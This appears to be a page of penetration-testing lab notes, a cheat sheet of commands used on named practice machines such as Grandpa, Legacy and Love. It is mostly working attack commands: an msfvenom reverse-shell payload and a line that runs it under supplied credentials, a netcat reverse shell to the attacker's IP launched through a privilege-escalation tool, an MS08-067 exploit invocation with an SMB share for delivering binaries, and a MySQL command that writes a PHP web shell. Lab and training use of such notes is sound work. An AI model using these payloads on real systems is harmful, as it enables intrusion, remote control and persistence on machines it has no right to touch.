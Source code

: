 Used in ```Chatterbox```

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

Used in ```Conceal```

```
sudo ipsec restart
```

[SeImpersonatePrivilege](https://github.com/tedchen0001/OSCP-Notes/blob/master/Windows/Privilege/SeImpersonatePrivilege.md)

Used in ```Grandpa```

```
churrasco.exe "nc.exe -e cmd.exe <attacker ip> <attacker port>"
```

Used in ```Jerry```

```
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
```

Used in ```Legacy```

https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

attacker 

```shell
# Windows XP SP3 English (NX) = 6
python2 ms08-067.py <target ip> 6 <target port>
python2 smbserver.py <shareName> /usr/share/windows-resources/binaries/
```

target

```cmd
copy \\<attacker ip>\<shareName>\whoami.exe C:\windows\temp
```

Used in ```Love```

SSRF payload

https://github.com/tarunkant/Gopherus

```mysql
select '<?php system($_GET[\'cmd\']); ?>' INTO OUTFILE 'C:\\xampp\\htdocs\\omrs\\admin\\test.php';
```

[AlwaysInstallElevated](https://github.com/tedchen0001/OSCP-Notes/tree/master/Windows/Privilege)
